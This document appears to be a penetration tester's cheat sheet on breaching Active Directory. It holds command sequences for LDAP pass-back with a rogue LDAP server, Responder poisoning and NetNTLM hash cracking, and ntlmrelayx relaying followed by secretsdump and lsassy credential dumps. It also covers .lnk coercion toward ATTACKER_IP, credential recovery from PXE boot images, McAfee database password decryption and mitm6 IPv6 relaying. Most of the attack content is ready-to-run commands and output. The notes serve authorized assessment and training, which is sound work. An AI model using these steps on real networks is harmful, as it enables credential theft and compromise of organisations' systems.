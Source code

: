 # Initial Access / Breaching

* NTLM Authenticated Services
* LDAP Bind Credentials
* Authentication Relays
* Microsoft Deployment Toolkit
* Configuration Files

OSINT and Phishing

## NTML Authenticated Services

* Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
* Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
* Exposed VPN endpoints that were integrated with AD.
* Web applications that are internet-facing and make use of NetNTLM.

## LDAP Bind Credentials

{% code overflow="wrap" fullWidth="true" %}
```sh
# LDAP Pass-back Attacks
Try to make network devices, such as printers, connect to our rogue device by altering LDAP configuration and intercepting LDAP authentication.
nc -lvnp 389
Then change server IP to our IP 
# In case we receive supportedCapabilities, it means we have a problem and creds will not be transmitted. We need to create a rogue LDAP server
# Hosting a Rogue LDAP Server
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
# Provide any Administrator password
sudo dpkg-reconfigure -p low slapd
- <No> when requested if you want to skip server configuration
- For the DNS domain name, you want to provide our target domain // Use this same name for the Organisation name as well
- Provide any Administrator password
- Select MDB as the LDAP database to use
- For the last two options, ensure the database is not removed when purged
- Move old database files before a new one is created
# Make rogue LDAP vulnerable by downgrading the supported authentication mechanisms (supports PLAIN and LOGIN auth). Create new ldif file:
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred 
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
# Verify our rogue LDAP server's configuration (in Kali we might see nothing)
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
# Capturing LDAP Credentials
sudo tcpdump -SX -i breachad tcp port 389
# Try the attack again and should see  LDAP Connection failed: The distinguished name contains invalid syntax but tcpdump would capture the creds 
```
{% endcode %}

## Old machine accounts

Inherent vulnerability user=pass, also try using the pre2k tool to find weak password users

[https://github.com/garrettfoster13/pre2k](https://github.com/garrettfoster13/pre2k)

## Authentication Relays

Look at wo different exploits for NetNTLM authentication with SMB:

* Since the (Net)NTLM Challenges can be intercepted, we can use offline cracking techniques to recover the password associated with the NTLM Challenge. However, this cracking process is significantly slower than cracking NTLM hashes directly.
* We can use our rogue device to stage a man in the middle attack, relaying the SMB authentication between the client and server, which will provide us with an active authenticated session and access to the target server.

Responder allows us to perform Man-in-the-Middle attacks by poisoning the responses during NetNTLM authentication, tricking the client into talking to you instead of the actual server they wanted to connect to. On a real LAN, Responder will attempt to poison any  Link-Local Multicast Name Resolution (LLMNR),  NetBIOS Name Service (NBT-NS), and Web Proxy Auto-Discovery (WPAD) requests that are detected.

By poisoning authentication requests, normal network authentication attempts would fail, meaning users and services would not connect to the hosts and shares they intend to. Do keep this in mind when using Responder on a security assessment.

```bash
# NOTE: confirm with cme that SMB signing:False

# Intercepting NetNTLM Challenge
https://github.com/lgandx/Responder
sudo responder -I tun0
[+] Listening for events...
[SMBv2] NTLMv2-SSP Client   : <Client IP>
[SMBv2] NTLMv2-SSP Username : $domain\<Service Account Username>
[SMBv2] NTLMv2-SSP Hash     : <Service Account Username>::$domain:<NTLMv2-SSP Hash>
hashcat -m 5600 <hash file> <password file> --force
```

## Relaying the Challenge

* SMB Signing should either be disabled or enabled but not enforced. When we perform a relay, we make minor changes to the request to pass it along. If SMB signing is enabled, we won't be able to forge the message signature, meaning the server would reject it.
* The associated account needs the relevant permissions on the server to access the requested resources. Ideally, we are looking to relay the challenge and response of an account with administrative privileges over the server, as this would allow us to gain a foothold on the host.
* Since we technically don't yet have an AD foothold, some guesswork is involved into what accounts will have permissions on which hosts. If we had already breached AD, we could perform some initial enumeration first, which is usually the case.

## NTLM Relay

{% code overflow="wrap" fullWidth="true" %}
```bash
# First get a list of unsigned SMB hosts
netexec smb 192.168.56.10-23 --gen-relay-list relay.txt
# Before starting responder to poison the answer to LLMNR, MDNS and NBT-NS request we must stop the responder SMB and HTTP server as we don’t want to get the hashes directly but we want to relay them to ntlmrelayx.
sed -i 's/HTTP = On/HTTP = Off/g' .../Responder.conf && sed -i 's/SMB = On/SMB = Off/g' .../Responder.conf && head -n 20 .../Responder.conf
# Now start ntlmrelayx
ntlmrelayx -tf relay.txt -of netntlm -smb2support -socks
# If we get some connections and one says ADMIN = TRUE, we can retrieve hashes
proxychains secretsdump -no-pass '$DOMAIN'/'$USER'@'$IP'
proxychains lsassy --no-pass $IP -u $USER -d $DOMAIN
```
{% endcode %}

## Coercion (.lnk file)

{% code overflow="wrap" fullWidth="true" %}
```bash
git clone https://github.com/Greenwolf/ntlm_theft.git
python3 ntlm_theft.py -g lnk -s ATTACKER_IP -f stealthy # generate .lnk using ATTACKER_ip in the stealthy directory
```
{% endcode %}

## Microsoft Deployment Toolkit

{% code overflow="wrap" fullWidth="true" %}
```sh
# MDT automates the deployment of Window OS. SSCM does patch management and can test patches in a sandbox environment.3
# PXE Boot, how to exploit it
    Inject a privilege escalation vector, such as a Local Administrator account, to gain Administrative access to the OS once the PXE boot has been completed.
    Perform password scraping attacks to recover AD credentials used during the install.
# PXE Boot Image Retrieval (we need MDT server IP and BCD files which we would request via TFT and enum the config of them)
tftp -i <MDT IP> GET "\Tmp\...bcd" conf.bcd
https://github.com/wavestone-cdt/powerpxe
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
# WIM files are bootable images in the Windows Imaging Format (WIM). Download that image:
tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
# Recovering Credentials from a PXE Boot Image
Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```
{% endcode %}

## Configuration Files

* Web application config files
* Service configuration files
* Registry keys
* Centrally deployed applications

{% code overflow="wrap" %}
```sh
# Centrally deployed applications -> McAfee Enterprise Endpoint Security
dir C:\ProgramData\McAfee\Agent\DB\ma.db
# Copy that file (where credentials of the associated AD service account might be found) to our attacking machine
# Read the database file
sqlitebrowser ma.db
# Focus on AGENT_REPOSITORIES table where we find the encrypted password
https://github.com/funoverip/mcafee-sitelist-pwd-decryption
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
```
{% endcode %}

#### IPv6 attacks

{% code overflow="wrap" fullWidth="true" %}
```sh
https://youtu.be/AmcWc2CjXx8?si=Wjkx3isi2QwVf_iL

sudo nmap -6 dc2022.lab.net

impacket-ntlmrelayx -6 -t ldaps://192.168.1.116 -wh fakewpad.lab.net -l dumpped-lootinfo

sudo mitm6 -i eth1 -d lab.net

- Security tools focus on IPv4, leaving IPv6 unmonitored
- IPv6 auto-configures on many Windows/Linux hosts
- MITM6 attacks force authentication over IPv6
- NTLM relay works seamlessly over IPv6
- IPv6 tunnels bypass network segmentation
```
{% endcode %}
